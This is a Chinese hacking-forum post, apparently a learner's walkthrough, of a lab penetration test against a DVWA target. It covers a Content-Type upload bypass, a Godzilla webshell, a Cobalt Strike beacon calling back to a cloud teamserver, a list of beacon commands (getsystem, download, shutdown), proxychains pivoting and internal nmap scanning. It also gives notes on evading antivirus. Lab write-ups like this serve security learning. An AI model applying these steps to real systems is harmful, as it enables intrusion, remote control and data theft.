# [原创] 学破解第202天，《web渗透总结及人生的一点思考》

- 原帖：<https://www.52pojie.cn/forum.php?mod=viewthread&tid=1791305>
- 抓取时间：2026-11-01T22:52:04

## 前言

坛友们，年轻就是资本，和我一起逆天改命吧，我的学习过程全部记录及学习资源：[https://www.52pojie.cn/thread-1582287-1-1.html](https://www.52pojie.cn/thread-1582287-1-1.html)

立帖为证！--------记录学习的点点滴滴

## 0x1 环境准备

### 1.1 攻击机

1. 虚拟机里面开一台 kali 系统作为攻击机，工具齐全嘛

### 1.2 跳板机

1. 一台云服务器作为跳板机（一会吹牛皮显得厉害嘛）

### 1.3 靶机

1. 虚拟机里面开一台 win 2003，安装个 phpstudy，弄个 dvwa 靶场放上去

## 0x2 开始入侵

### 2.1 文件上传

1. 这里我就用哥斯拉工具吧，如下图所示生成一个 php 木马，保存为 `shell.php`



2. 这里再复习一下 burp 的使用吧，dvwa 等级用中级，这里直接传 jsp 会失败，那么就去 kali 里面用 burp 抓包



3. 修改（为啥修改网上教程也很多，因为源码 `if` 语句判断了类似是否 `jpeg` 或者 `png`）。

```
Content-Type: application/x-php
改成
Content-Type: image/jpeg
```



4. 拿到了上传成功的路径去哥斯拉工具连接，测试成功。（菜刀、蚁剑都行）



### 2.2 CS渗透提权

1. 在跳板机上部署 cs 服务器（作案用），服务端启动方式：`teamserver.bat 本机ip 密码`。

```
root@VM-4-7-debian:~# ./teamserver （跳板机本机ip） 123456 Will use existing X509 certificate and keystore (for SSL)
[+] Team server is up on 0.0.0.0:50050 SHA256 hash of SSL cert is: 766f8125a3daecf64d64e80a279146aead4452d659a5ce387983eaccb9d039b3
[+] Listener: xcn.exe started!
```

2. 再去攻击机 kali 上面连接 cs 服务器，端口随便，我用的腾讯云服务器，需要开放对应端口，不然软件连不上。



3. 创建一个监听器，反弹 shell 用的。



4. 使用监听器生成 exe 木马（也可以用别的），然后拿着木马去上传吗？我们已经拿到了 web 权限，直接用哥斯拉更方便，拖进去（得关掉杀毒软件，没变形也没加壳，会被杀毒软件直接干掉）。



5. 上传成功后去命令执行界面，直接输入文件名运行。



6. 回到 cs 发现反弹成功了，肉鸡上线了，第一条信息是我用 xcn 用户名加入的意思，第二条是监听到一台主机上线了。



7. 为了让它更快执行命令，可以输入 `sleep` 进行调节，输入 `help` 可以看到能执行哪些 `shell` 命令。



```
sleep 1 （修改回连时间，快速响应操作）
getuid（查看当前beacon 是以什么身份运行的）
net share（列出所有的共享目录和文件）
net user（列出所有的用户）
getsystem（尝试获取SYSTEM 权限）
getprivs（获取当前beacon 所有权限）
shell shutdown -s -t 0 关机
type (显示文本文件内容)
more (逐屏的显示文本文件内容)
upload （上传文件到目标系统中）
download （从目标系统下载指定文件）
cancel （取消下载任务,）
clear (清除beacon 内部的任务队列)
checkin (强制让被控端回连一次)
exit (终止当前beacon 会话)
ctrl + k (清屏)
```

### 2.3 内网代理

1. 接下来利用 cs 我们可以进行端口 socket 转发



2. 转发后我就可以利用被攻击机作为跳板对局域网中的其他计算机发起攻击，去 kali 我们试试通过代理扫描，打开配置文件，设置成代理 VPS：`vim /etc/proxychains4.conf`，拉到最下面修改 `socks4` 为 `42.192.150.107 55555`。



3. 使用代理进行端口扫描，收集局域网其他机器信息。

```
┌──(kali㉿kali)-[~]
└─$ proxychains4 nmap 192.168.8.0/24
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.15
Starting Nmap 7.92 ( https://nmap.org ) at 2023-05-29 09:34 EDT
[proxychains] Strict chain  ...  42.192.150.107:55555  ...  192.168.8.1:80  ...  OK
[proxychains] Strict chain  ...  42.192.150.107:55555  ...  192.168.8.4:80
```

## 0x3 总结

### 3.1 信息收集

1. `arping`/`netdiscover` 命令探索
2. `ping` 扫描
3. `nmap` 扫描
4. `fofa`、`Shodan` 等主动信息收集工具

### 3.2 常见漏洞思路

1. 常见的就是 sql 注入，文件上传、命令执行，文件包含漏洞，把知道的工具拿上去探测就完了，有就干，没有就放弃（小菜鸟的想法）
2. 另一类就是本身安全性比较好，用的 cms 模板，可以去找一找网上公布的漏洞，针对性的去渗透
3. 逻辑漏洞的话一般是代码审计才会发现，不修改代码而是利用边界值让程序出错执行。
4. 序列化漏洞针对具体语言（面向对象）就得有点 java 或者 php 知识才能去渗透了

### 3.3 木马免杀的思考

1. 手工或者利用工具变形、膨胀木马代码
2. 加强壳让杀软识别不出来，某数字软件对强壳经常直接报毒，这没辙

### 3.4 写在最后的话

1. 好久没学习了，复习一下知识，以前是为了摆脱月薪 4300 换工作而学习，后来发现我是文员，年龄大又没 IT 经验，转行困难就放弃了。
2. 现在想想，把渗透和逆向作为一门兴趣爱好也未尝不可，不正是文员这份工作才能让我有闲心学习嘛。
3. 最后小菜鸟希望和论坛的各位大佬共同进步！
